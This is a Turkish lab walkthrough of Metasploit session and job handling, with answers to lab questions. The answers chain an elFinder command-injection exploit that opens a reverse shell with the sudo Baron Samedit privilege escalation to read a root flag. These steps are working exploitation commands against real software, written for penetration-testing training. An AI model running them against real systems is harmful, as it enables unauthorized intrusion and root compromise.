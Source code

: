 ```yaml
---
glightbox: true
icon: material/help
---
```


# Sessions

## Using Sessions

Meterpreter içerisinde ++control+z++ tuş kombinasyonu ile veya `background` komutunu çalıştırarak mevcut oturumu arka plana taşıyabiliriz. Bu işlemin ardından dilersek farklı bir modül ile çalışabiliriz.

### Listing Active Sessions

```text
sessions
```

```text title="Output"
Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ MS01  10.10.10.129:443 -> 10.10.10.205:50501 (10.10.10.205)
```

### Interacting with a Session

```text
sessions -i 1
```

```text title="Output"
[*] Starting interaction with 1...

meterpreter >
```

## Jobs

Belirli bir port altında aktif olarak çalışan bir exploit varsa ve bu porta farklı bir modül için ihtiyaç duyuluyorsa ++control+c++ tuş kombinasyonu ile oturumu sonlandıramayız. Bunun yapılması portu kullanılabilir hale getirmez.

Bunun yerine, arka planda çalışan aktif görevlere bakmak için `jobs` komutunu kullanmak ve daha sonra ilgili portu boşa çıkarmak için eski görevleri sonlandırmak gerekir.

### Running an Exploit as a Background Job

```text
exploit -j
```

```text title="Output"
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.34:4444
```

### Listing Running Jobs

Çalışan tüm işleri listelemek için aşağıdaki komut kullanılabilir:

```text
jobs -l
```

```text title="Output"
Jobs
====

 Id  Name                    Payload                    Payload opts
 --  ----                    -------                    ------------
 0   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://10.10.14.34:4444
```

Belirli bir işi sonlandırmak için ilgili işin index bilgisi kullanılabilir:

```text
kill 0
```

## Questions

```text
The target has a specific web application running that we can find by looking into the HTML source code. What is the name of that web application?
```

??? tip "Steps"

    Web tarayıcısında [http://10.129.203.52](http://10.129.203.52) adresine gittikten sonra sayfa kaynağını görüntüleyerek istenilen cevaba ulaşabilirsin.

```text
Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?
```

??? tip "Steps"

    Öncelikle Msfconsole aracını başlat:

    ```bash
    sudo msfconsole -q
    ```

    Aşağıdaki aramayı gerçekleştir:

    ```text
    search elfinder
    ```

    Çıkan sonuçlardan ilgili exploit modülünü kullan:

    ```text
    use exploit/linux/http/elfinder_archive_cmd_injection
    ```

    RHOSTS değerini ayarla:

    ```text
    set RHOSTS 10.129.203.52
    ```

    LHOST değerini ayarla:

    ```text
    set LHOST 10.10.14.87
    ```

    Exploit başlat:

    ```text
    exploit
    ```

    Sistem shell aktif et:

    ```text
    shell
    ```

    Aşağıdaki komutu çalıştır:

    ```bash
    whoami
    ```

    Cevabı edindikten sonra shell penceresini çıkış yap ve Meterpreter oturumunu arka plana taşımak için aşağıdaki komutu kullan (bir sonraki soruda bu oturumu kullanmamız gerekecek, o yüzden Msfconsole da açık kalmalı):

    ```text
    background
    ```

```text
The target system has an old version of Sudo running. Find the relevant exploit and get root access to the target system. Find the flag.txt file and submit the contents of it as the answer.
```

??? tip "Steps"

    Öncelikle aşağıdaki aramayı gerçekleştir:

    ```text
    search sudo
    ```

    Çıkan sonuçlardan ilgili exploit modülünü kullan. Bu modül ile `root` kullanıcısı olabileceğiz:

    ```text
    use exploit/linux/local/sudo_baron_samedit
    ```

    Bu soruyu çözebilmek için önceden edindiğimiz oturumu kullanacağız. Bu oturuma ait index bilgisini aşağıdaki komut ile öğren:

    ```text
    sessions
    ```

    ```text title="Output"
    Active sessions
    ===============

      Id  Name  Type                   Information               Connection
      --  ----  ----                   -----------               ----------
      1         meterpreter x86/linux  www-data @ 10.129.203.52  10.10.14.87:4444 -> 10.129.203.52:41988 (10.129.203.52)
    ```

    SESSION değerini ayarla:

    ```text
    set SESSION 1
    ```

    LHOST değerini ayarla:

    ```text
    set LHOST 10.10.14.87
    ```

    Exploit başlat:

    ```text
    run
    ```

    Sistem shell aktif et:

    ```text
    shell
    ```

    Flag dosyasının konumunu bulmak için aşağıdaki komutu çalıştır:

    ```bash
    sudo find / -name flag.txt -type f 2> /dev/null
    ```

    ```text title="Output"
    /root/flag.txt
    ```

    Bulunan dosyanın içeriğini görüntülemek için aşağıdaki komutu çalıştır:

    ```bash
    cat /root/flag.txt
    ```
